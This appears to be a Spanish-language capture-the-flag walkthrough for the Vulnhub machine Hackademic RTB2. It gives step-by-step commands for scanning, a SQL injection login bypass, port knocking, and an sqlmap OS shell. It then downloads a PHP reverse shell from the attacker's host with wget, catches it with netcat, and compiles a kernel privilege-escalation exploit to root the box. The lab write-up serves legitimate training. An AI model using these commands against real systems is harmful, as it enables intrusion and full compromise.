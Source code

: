 <p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?font=xd&size=50&color=3CF700FF&background=FF000000&width=500&height=80&lines=HACKADEMIC_RTB2"></a>
</p>

<h1 align="center"></h1>

**[Descargar máquina]:**

Vulnhub: https://www.vulnhub.com/entry/hackademic-rtb2,18/

<h1 align="center"><img src="https://user-images.githubusercontent.com/75953873/182723256-9616db47-6dcd-4884-a26f-0bd69b382d29.png"></h1>

</br>

- *Paso 1:* Identificación de la máquina en la red con ArpScan. 
```
arp-scan --interface eth0 -l
```
![2](https://user-images.githubusercontent.com/75953873/182723636-8e6a7d2c-7280-4742-a5b3-17660bdd6a2e.png)

IP host: `192.168.25.131`

- *Paso 2:* Escanear todos los puertos que estén abiertos con Nmap. 
```
nmap -p- --open -sC -n -vvv 192.168.25.131
```
![3](https://user-images.githubusercontent.com/75953873/182724090-b60c5b67-0dd2-4a6c-83d7-01c541c00bef.png)

Puertos abiertos: [80,666]

- *Paso 3:* Detección de servicios y sistema operativo. 
```
nmap -p 80,666 -A 192.168.25.131
```
![4](https://user-images.githubusercontent.com/75953873/182724516-60843d6c-3ed8-4307-8345-7431696978a3.png)

Servidor corriendo: **HTTP Apache**

O.S: Linux (**Ubuntu**)

URL del servidor: `http://192.168.25.131`

![5](https://user-images.githubusercontent.com/75953873/182724778-d685a545-04c9-4e41-8a49-3058067bc121.png)

- *Paso 4:* Bypassear página con inyección SQL manual. 

Username: `' or 1=1--'`

Password: `' or 1=1--'`

![6](https://user-images.githubusercontent.com/75953873/182725260-0ebeb8c5-c0af-465d-b520-69816fb8b37a.png)

![7](https://user-images.githubusercontent.com/75953873/182725313-445bffd4-699b-404c-9304-80a514377bfa.png)

Al inspeccionar el código fuente, la etiqueta `<font>` contiene un texto ofuscado a hexadecimal.

![9](https://user-images.githubusercontent.com/75953873/182725970-78c8a7d8-80ea-4298-906f-7b8e9a898268.png)

```
%33%63%20%32%64%20%32%64%20%32%64%20%32%64%20%32%64%20%32%64%20%32%64%20%32%64%20%32%64%20%33%65%20%30%64%20%30%61%20%34%62%20%36%65%20%36%66%20%36%33%20%36%62%20%32%30%20%34%62%20%36%65%20%36%66%20%36%33%20%36%62%20%32%30%20%34%62%20%36%65%20%36%66%20%36%33%20%36%62%20%36%39%20%36%65%20%32%37%20%32%30%20%36%66%20%36%65%20%32%30%20%36%38%20%36%35%20%36%31%20%37%36%20%36%35%20%36%65%20%32%37%20%37%33%20%32%30%20%36%34%20%36%66%20%36%66%20%37%32%20%32%30%20%32%65%20%32%65%20%32%30%20%33%61%20%32%39%20%30%64%20%30%61%20%33%30%20%33%30%20%33%31%20%33%31%20%33%30%20%33%30%20%33%30%20%33%31%20%32%30%20%33%30%20%33%30%20%33%31%20%33%31%20%33%30%20%33%30%20%33%30%20%33%30%20%32%30%20%33%30%20%33%30%20%33%31%20%33%31%20%33%30%20%33%30%20%33%30%20%33%30%20%32%30%20%33%30%20%33%30%20%33%31%20%33%31%20%33%30%20%33%30%20%33%30%20%33%31%20%32%30%20%33%30%20%33%30%20%33%31%20%33%31%20%33%31%20%33%30%20%33%31%20%33%30%20%32%30%20%33%30%20%33%30%20%33%31%20%33%31%20%33%30%20%33%30%20%33%30%20%33%31%20%32%30%20%33%30%20%33%30%20%33%31%20%33%31%20%33%30%20%33%30%20%33%30%20%33%31%20%32%30%20%33%30%20%33%30%20%33%31%20%33%31%20%33%30%20%33%30%20%33%30%20%33%30%20%32%30%20%33%30%20%33%30%20%33%31%20%33%31%20%33%30%20%33%30%20%33%30%20%33%31%20%32%30%20%33%30%20%33%30%20%33%31%20%33%31%20%33%31%20%33%30%20%33%31%20%33%30%20%32%30%20%33%30%20%33%30%20%33%31%20%33%31%20%33%30%20%33%30%20%33%30%20%33%31%20%32%30%20%33%30%20%33%30%20%33%31%20%33%31%20%33%30%20%33%30%20%33%30%20%33%30%20%32%30%20%33%30%20%33%30%20%33%31%20%33%31%20%33%30%20%33%30%20%33%30%20%33%31%20%32%30%20%33%30%20%33%30%20%33%31%20%33%31%20%33%30%20%33%30%20%33%30%20%33%31%20%32%30%20%33%30%20%33%30%20%33%31%20%33%31%20%33%31%20%33%30%20%33%31%20%33%30%20%32%30%20%33%30%20%33%30%20%33%31%20%33%31%20%33%30%20%33%30%20%33%30%20%33%31%20%32%30%20%33%30%20%33%30%20%33%31%20%33%31%20%33%30%20%33%30%20%33%30%20%33%30%20%32%30%20%33%30%20%33%30%20%33%31%20%33%31%20%33%30%20%33%30%20%33%30%20%33%30%20%32%30%20%33%30%20%33%30%20%33%31%20%33%31%20%33%30%20%33%30%20%33%30%20%33%31%20%30%64%20%30%61%20%33%63%20%32%64%20%32%64%20%32%64%20%32%64%20%32%64%20%32%64%20%32%64%20%32%64%20%32%64%20%33%65%0A
```

- *Paso 5:* Decodificar mensaje de forma Online y con BurpSuite. 

**ONLINE:** https://www.online-toolz.com/langs/es/tool-es-text-hex-convertor.html

![10](https://user-images.githubusercontent.com/75953873/182726252-e5756ba4-5cf6-44ce-92a1-76971760b4d8.png)

**BURPSUITE:**

Decoder:
```
[Text] -> Decode as -> URL
[Hex] -> Decode as -> ASCII hex
[Text] -> Decode as -> Plain
```
![11](https://user-images.githubusercontent.com/75953873/182727019-7c7f2896-8299-42f1-ba58-d6e69c1d6545.png)

Decodificar cadena binaria: https://www.traductorbinario.com/
```
0 0 1 1 0 0 0 1   0 0 1 1 0 0 0 0   0 0 1 1 0 0 0 0   0 0 1 1 0 0 0 1   0 0 1 1 1 0 1 0   0 0 1 1 0 0 0 1   0 0 1 1 0 0 0 1   0 0 1 1 0 0 0 0   0 0 1 1 0 0 0 1   0 0 1 1 1 0 1 0   0 0 1 1 0 0 0 1   0 0 1 1 0 0 0 0   0 0 1 1 0 0 0 1   0 0 1 1 0 0 0 1   0 0 1 1 1 0 1 0   0 0 1 1 0 0 0 1   0 0 1 1 0 0 0 0   0 0 1 1 0 0 0 0   0 0 1 1 0 0 0 1 
```

![12](https://user-images.githubusercontent.com/75953873/182727491-9cdcf046-d840-4923-a7fd-1c5d0258a98c.png)

- *Paso 6:* Acceder al puerto 666 golpeado recursivamente los puertos `1001,1101,1011,1001` con Nmap. 
```
nmap -r -p 1001,1101,1011,1001 192.168.25.131
```
![13](https://user-images.githubusercontent.com/75953873/182728017-cd632ee0-4ae2-4f7e-8e8e-f78ee7450ebd.png)

URL con el puerto 666 abierto: `http://192.168.25.131:666`

![14](https://user-images.githubusercontent.com/75953873/182728213-b629fc94-5457-4086-b57d-f5b01b3aeb2a.png)

- *Paso 7:* Encontrar parámetro vulnerable a inyección SQLI. 

Navegando en el sitio web se puede observar que la "Lista de artículos de contenido" presenta una URL crítica.
```
sqlmap --url 'http://192.168.25.131:666/index.php?option=com_abc&view=abc&letter=List+of+content+items...&Itemid=3' --dbs --batch
```
![15](https://user-images.githubusercontent.com/75953873/182728721-92cf4596-2d56-4614-88c3-30419f27d7d7.png)

- *Paso 8:* Subir una shell a la base de datos `joomla`:
```
sqlmap --url 'http://192.168.25.131:666/index.php?option=com_abc&view=abc&letter=List+of+content+items...&Itemid=3' -D joomla --os-shell --batch
```
![16](https://user-images.githubusercontent.com/75953873/182729464-41340377-450f-45ff-94eb-4c9789aab291.png)

Editar la reverse shell PHP, moverla al directorio `/root` y subirla al servidor local:
```
cp /usr/share/webshells/php/php-reverse-shell.php /root
nano php-reverse-shell.php
mv php-reverse-shell.php reverseshell.php
```

**$ip:** La IP local de su máquina.

**$port:** 4444 (opcional).

![18](https://user-images.githubusercontent.com/75953873/182730094-c8c2f93f-b0a6-444f-9f84-b26f4efe6030.png)

![17](https://user-images.githubusercontent.com/75953873/182729943-7059e627-8c01-43bc-b0f6-572664c2773c.png)

Abrir servidor local con Python3:
```python
python3 -m http.server 80
```
![20](https://user-images.githubusercontent.com/75953873/182731305-a8adc335-e819-4e5c-9f1e-c388f900f595.png)

Descargar la reverse shell desde la shell obtenida de la base de datos:
```
wget http://192.168.1.9/reverseshell.php
```
![19](https://user-images.githubusercontent.com/75953873/182731485-6dd80b89-38fe-4aa6-a2c1-de63078be636.png)

- *Paso 9:* Poner a escucha de conexiones con Netcat:
```
nc -lvp 4444
``` 
Acceder al sitio donde se subio la reverse shell:

URL: `http://192.168.25.131:666/reverseshell.php`

![21](https://user-images.githubusercontent.com/75953873/182731893-d0f3e803-277c-422d-b78c-fd9f8c22c66d.png)

- *Paso 10:* Identificar versión del kernel y descargar exploit:

![22](https://user-images.githubusercontent.com/75953873/182732251-c05c0ba1-7e2e-4da5-a75c-8676435d3a96.png)

```
searchsploit 2.6.3 | grep "RDS"
searchsploit -m 15285
```
![23](https://user-images.githubusercontent.com/75953873/182733308-febf508c-8e3b-42b7-ba66-9b3eb82b6494.png)

Abrir servidor local con Python3:
```python
python3 -m http.server 80
```

Descargar y compilar exploit en el directorio `/tmp`:
```
cd /tmp
wget http://192.168.1.9/15285.c
gcc 15285.c -o kernel
```
![24](https://user-images.githubusercontent.com/75953873/182735176-1cd40bee-e4d0-4956-bc1e-2e593608b292.png)

Explotar kernel:
```
./kernel
```
![26](https://user-images.githubusercontent.com/75953873/182735618-d1d80e24-f62d-4679-b2fa-1d745dfe8abf.png)

Acceder al directorio `/root` y capturar la flag:
```
cd /root
cat Key.txt
```
Descifrar contenido del fichero con base64 y moverlo al servidor local `/var/www`:
```
base64 -d Key.txt > flag
mv flag /var/www
```
URL: `http://192.168.25.131:666/flag`

![28](https://user-images.githubusercontent.com/75953873/182736188-909c542c-55ad-46ea-962a-517ede01b93d.png)
